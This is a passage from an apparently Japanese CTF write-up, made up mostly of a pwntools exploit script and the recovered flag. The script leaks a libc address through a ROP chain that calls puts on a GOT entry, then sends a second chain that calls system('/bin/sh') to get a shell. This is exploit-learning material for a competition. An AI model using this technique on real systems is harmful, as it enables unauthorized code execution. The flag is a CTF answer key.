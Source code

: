```python
        print('send attack')
        p.sendline(b'a')
    else:
        print('send run')
        p.sendline(b'r')

    p.recvline()
    if 'Congratulations' in f'{p.recvline()}':
        break

    cnt+=1


POP_RDI_NOP_POP_RBP_RET = 0x0000000000402640
RET = 0x000000000040201a

# send ROP payload to execute puts(puts@got) to leak address of puts
# and execute win function again to send next payload
rop = ROP(elf)
rop.raw(b'A'*104)
rop.raw(POP_RDI_NOP_POP_RBP_RET)
rop.raw(elf.got['puts'])
rop.raw(0x0)
rop.raw(elf.plt['puts'])
rop.raw(elf.sym['_Z3winv'])
print(rop.dump())
payload = rop.chain()
p.sendline(payload)

# calculate libc base
p.recvline()
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
print(hex(puts_addr))
libc.address = puts_addr - libc.sym['puts']
print(hex(libc.address))

# send system("/bin/sh")
p.recvuntil(b'warrior? ')
rop = ROP(libc)
rop.raw(b'A'*104)
rop.raw(RET)
rop.raw(POP_RDI_NOP_POP_RBP_RET)
rop.raw(next(libc.search(b'/bin/sh')))
rop.raw(0x0)
rop.raw(libc.sym['system'])
print(rop.dump())
payload = rop.chain()

p.sendline(payload)

p.interactive()
```

フラグ
`dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}`

---

## 終わりに
他は解いていないんですか!? -> はい
